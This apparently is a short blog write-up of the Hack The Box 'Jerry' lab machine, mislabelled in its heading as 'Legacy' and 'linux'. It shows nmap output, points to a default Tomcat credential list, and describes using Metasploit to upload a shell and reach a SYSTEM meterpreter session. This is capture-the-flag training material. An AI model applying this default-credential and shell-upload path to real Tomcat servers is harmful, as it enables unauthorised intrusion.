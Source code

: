 ```yaml
---
layout: post
title: Jerry
date: 2020-03-31
author: the-bilal-rizwan
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Legacy writeup

Easy linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/main.png)


Let's do a quick nmap all ports

```perl
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 09:23 EDT
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds                               
```

<br>

### Enumeration

So tomcat is running on port 8080 I used the following default passwords and one of them worked, I'll leave that up to you.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown  


![Tomcat Manager]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/tomcatManager.png)


### Exploitation

Used msf to upload shell to tomcat

![Shell Upload]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Jerry/shellUpload.png)


and I dropped directly in to a root  / system shell

```perl
meterpreter > shell
Process 3 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
That's all pretty simple